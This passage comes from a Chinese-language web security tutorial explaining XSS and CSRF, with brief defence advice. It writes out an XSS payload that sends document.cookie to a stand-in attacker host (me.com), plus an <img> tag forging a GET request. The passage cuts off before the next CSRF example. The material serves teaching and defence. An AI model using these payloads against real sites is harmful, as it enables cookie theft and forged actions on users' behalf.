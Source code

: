只要能在页面插入可运行的脚本，那么就可以做很多事。比如获取页面的某些信息，发送到自己的服务器。或者获取网站的 Cookie。

攻击者搭建了一个网站，写了个页面或接口：`http://me.com?param=xxx`。只要有人访问这个页面，服务端就能把 `param` 参数保存在数据库。

然后再构造另一个链接：`http://example.com/page?content=<script>window.open('me.com?param' + document.cookie)</script>`

只要有人打开这个链接，就能把浏览器在 example.com 上的 cookie 保存到攻击者的服务器。剩下的事就是诱导点击，等着鱼上钩了。

### XSS 防御

要做好 XSS 防御，主要是不要相信用户的输入，对所有的请求参数做检查。

使用富文本时，使用XSS规则引擎进行编码过滤。

当然，很多时候是不能过滤掉标签的，像博客园这样的网站，用户经常发代码，不能过滤掉，只能进行转码再显示：

![](img/xss-0.png)

## CSRF

### 什么是 CSRF

> CSRF（Cross-site request forgery跨站请求伪造，也被称为“one click attack” 或者 session riding，通常缩写为 CSRF 或者 XSRF，是一种对网站的恶意利用。

简单地说，就是攻击者盗用了你的身份，以你的名义发送恶意请求。

### 简单示例

举个栗子。

某博客网站用户登录后，可以给其他用户点赞。点赞的 API 接口是 `http://example.com/like?user_id=xxx`，并且这是一个 GET 请求接口。

A 是一个虚荣的程序员，为了赞丧心病狂。他的用户 ID 是 1234。于是他构造了一个这样的 URL：`http://example.com/like?user_id=1234`。

很显然，只要其他用户在博客网站登陆了，并且用户的浏览器请求了这个 URL，那么 A 就能得到一个赞。

接着，他在博客网站写了一篇文章《程序员 30 天学会把妹技巧》，文章里插入这样的一张图片：

```
<img src="http://example.com/like?user_id=1234">
```

我们知道，浏览器对于图片请求是默认允许的。于是，当已登陆用户浏览他的文章时，A 就会获得一个赞。

以上示例可以看出，GET 请求的安全性是很低的。当然，这里使用 GET 请求不符合 HTTP 规范。

### 升级版示例

好景不长，某天，网站管理员忽然发现有一篇文章的赞数高得令人发指，文章质量却是惨不忍睹，很是可疑。看到底部，卧槽，自己竟然也点了推荐？于是赶忙叫程序员加班，把接口改成 POST 请求，修复了这个漏洞。

然并卵，这依然难不倒 A。于是他写了这段代码，放在他自己的站点上。

